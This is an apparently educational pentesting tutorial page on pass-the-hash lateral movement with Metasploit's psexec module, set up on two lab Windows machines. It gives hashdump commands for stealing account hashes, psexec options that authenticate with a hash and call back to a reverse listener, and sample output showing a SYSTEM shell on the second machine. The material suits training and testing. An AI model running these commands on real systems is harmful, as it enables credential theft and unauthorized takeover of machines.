 ```yaml
---
title: PsExec for Pass-the-Hash
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 6
---
```


# PsExec for Pass-the-Hash

## Introduction

The psexec module is a frequently utilized tool in the arsenal of penetration testers, serving as a means to gain access to a targeted system when credentials are already known. Originally developed by Sysinternals, this module has been seamlessly integrated into various frameworks. In many penetration testing scenarios, initial access to a system is achieved through exploits, leveraging tools like Meterpreter to extract passwords or employing techniques such as fgdump, pwdump, or cachedump. Subsequently, penetration testers often employ rainbow tables to crack hashed passwords obtained during these operations.

In this context, the Meterpreter's PSEXEC module becomes a valuable asset for authentication into another machine using a pass-the-hash technique. By leveraging this module, penetration testers can efficiently utilize hashed credentials, acquired through previous steps, to establish unauthorized access to the targeted system. 

## Step-by-Step Guide

### Setup

#### 1. Setup two windows machines with the same user name and password

For this, both machine has an account named *'user'* with *'password'* as password.

#### 2. Establish meterpreter connection to the first machine.

On this instance, a meterpreter binary was used.

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### Exploitation

#### 1. Dump the hashes using the meterpreter session on the first machine.

Using 'hashdump' module:

```bash
meterpreter > hashdump
```

Note: You may need to elevate your privilege using *'GETSYSTEM'* to successfully dump the hashes.

![Dump the account hashes](hashdump.png)

#### 2. Use Meterpreter's PsExec module for Pass-the-Hash

Set the required options:

```bash
msf6 > use exploit/windows/smb/psexec # PsExec module
msf6 exploit(windows/smb/psexec) > set payload <PAYLOAD> # your chosen payload
msf6 exploit(windows/smb/psexec) > set RHOST <TARGET HOST> # IP of the second machine
msf6 exploit(windows/smb/psexec) > set LHOST <LISTENING IP> # your local IP
msf6 exploit(windows/smb/psexec) > set LPORT <LISTENING PORT> # your chosen port
msf6 exploit(windows/smb/psexec) > set SMBUser <TARGET USER> # target user from hashdump
msf6 exploit(windows/smb/psexec) > set SMBPass <TARGET PASSWORD HASH> # target user's password from hashdump
```

Sample: Using the *'user'* information from the hashdump:

![Sample PsExec options](psexec_options.png)


#### 3. Run the exploit and take over the second machine.

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.152.132:8888 
[*] 192.168.152.154:445 - Connecting to the server...
[*] 192.168.152.154:445 - Authenticating to 192.168.152.154:445 as user 'user'...
[*] 192.168.152.154:445 - Selecting PowerShell target
[*] 192.168.152.154:445 - Executing the payload...
[+] 192.168.152.154:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.152.154
[*] Meterpreter session 2 opened (192.168.152.132:8888 -> 192.168.152.154:49174) at 2024-02-02 11:49:11 +1100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/aJ3ey8L2p3E/hqdefault.jpg"
/>](https://www.youtube.com/embed/aJ3ey8L2p3E)

## Reference
https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/
